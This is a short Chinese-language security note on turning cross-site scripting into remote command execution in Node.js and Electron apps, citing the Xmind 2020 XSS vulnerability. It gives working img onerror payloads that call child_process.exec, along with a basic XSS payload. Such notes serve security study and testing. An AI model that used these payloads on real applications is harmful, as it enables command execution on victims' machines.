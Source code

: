 ## XSS to RCE

为了大大提升 XSS 的危害，我们可以利用 JavaScript 来执行系统命令。

#### 使用 child_process 执行系统命令(nodeJS环境)

如果目标环境启用了 **NodeJS** 的话，我们也可以利用 NodeJS 的子进程（child_process）调用并执行系统命令：

```
<img src=x onerror="const exec = require('child_process').exec;exec('whoami').stdout.on('data', function (data) {alert(data);})">

<img src=x onerror="require('child_process').exec('calc');">

<img src=x onerror="require('child_process').exec('<更多稀奇古怪的Payload>');">


如果禁用require 函数，限制了通过require 引入child_process 执行系统命令的方法，不过没关系，我们还有process 
```

**Electron也可以访问nodejs环境啊，所以也会存在xss to rce，可以关注Electron项目**

> https://www.anquanke.com/post/id/170665?display=mobile

### Xmind 2020 XSS 漏洞

XMind 是一款专业的商业思维导图软件，Electron开发。

2021年5月10日，被爆 Xmind 2020 中存在 XSS 漏洞，攻击者可以借助该漏洞实现命令执行，在实际环境中借助钓鱼攻击可能造成更严重的危害。

漏洞利用很简单，在 “思维导图” 中输出 Payload：

`<img src=x onerror=alert('xss')>`

![image-20220811214333609](xss.assets/image-20220811214333609.png)
